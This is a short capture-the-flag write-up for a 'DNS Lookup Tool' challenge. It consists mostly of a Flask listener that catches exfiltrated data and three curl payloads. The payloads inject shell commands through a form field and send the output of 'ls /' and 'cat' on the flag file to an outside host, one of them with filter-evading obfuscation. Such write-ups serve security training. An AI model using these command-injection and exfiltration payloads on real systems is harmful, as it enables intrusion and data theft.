 ## DNS Lookup Tool: Final
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/525b06b2-d309-47a2-976d-70058bd30fb4)

### exploit
```python
#!/usr/bin/env python3

from flask import Flask,request,redirect,Response


app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def root():
    print(request.stream.read().decode())
    return "com"

@app.route('/<path:data>',methods=['GET'])
def run(data):
    print(data)
    return "com"

if __name__ == "__main__":
    app.run(host="::", port=80)
```

### payload
```bash
curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(ls /)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /flag_SWeUMks9hGYFciax)")'

curl http://10.105.0.21:21520/ -d 'name=example.$(curl 10.105.2.22 -d "$(cat /$(echo f)lag_SWeUMks9hGYFciax)")'
```

### Flag
![image](https://hackmd.io/_uploads/SJaw3er_p.png)

`AIS3{jUsT_3@$y_cOMmAnD_INJEc7ION}`
